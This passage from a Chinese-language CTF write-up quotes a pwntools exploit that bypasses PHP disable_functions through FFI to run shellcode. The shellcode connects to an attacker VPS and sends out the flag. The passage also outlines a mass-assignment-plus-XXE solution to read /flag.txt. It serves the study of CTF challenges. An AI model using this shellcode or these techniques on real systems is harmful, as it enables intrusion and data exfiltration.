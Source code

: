 有 eval 可以執行任意程式碼，但是 disable_functions 裡面有一堆東西

最後的解法我也沒有看得很懂，看起來是要寫一些 shell code 搭配可以用的 function，附上 [discord](https://discord.com/channels/656258740252704788/978311401439363112/985623102190940240) 裡面看到的解法(by Tony_Bamanaboni)：


``` py
from pwn import *
from binascii import hexlify
context.arch = "amd64"
payload = "addr: .quad 0\nnop\nnop\nnop\nnop\nnop"
payload += """
call $+5
pop r13
and r13, -4096
mov r13, [r13]
"""
payload += shellcraft.amd64.linux.connect("VPSIP", 6666)
payload += shellcraft.amd64.linux.egghunter(b'CTF{')
payload += """mov rsi, rdi
mov rdi, rbp
mov rdx, 50
mov rax, 1
syscall
ret
"""
payload = hexlify(asm(payload)).decode()
php = '''
$pl=hex2bin("%s");
$l=FFI::cdef("char* mmap(int,int,int,int,int,int);void alarm(int);void signal(int,void*);","libc.so.6");
$p=$l->mmap(0,0x1000,7,0x21,-1,0);
$p2=$l->environ;
FFI::memcpy($p,FFI::addr($p2),8);
for($idx=8;$idx<strlen($pl);$idx++){$p[$idx]=$pl[$idx];}
$l->signal(14,$p+8);
$l->alarm(5);
''' % payload
print(php.replace('\n', '').replace('+', '%2b'))
```

## Web API intended(4 solves)

這題就給你一個 API 文件，可以註冊、登入、修改資料跟建立一些資料等等。

當時在打的時候看到 jwt 裡面有個 `/jwk` 的網址，試著改成別的發現沒收到 request，就先跑去玩其他題了。

事後從 discord 的討論看來，解法是更改使用者資料有個 mass assignment 的 bug，可以把自己改成 `is_admin: true`，接著別的 endpoint 有吃 XML，就 XXE 然後讀 /flag.txt，結束

概念看起來似乎不太難，不過畢竟是黑箱所以比較多東西需要去測試，有時候可能試幾條路卡住以後，就會先去解白箱的題目了。

## Ninja(1 solves)
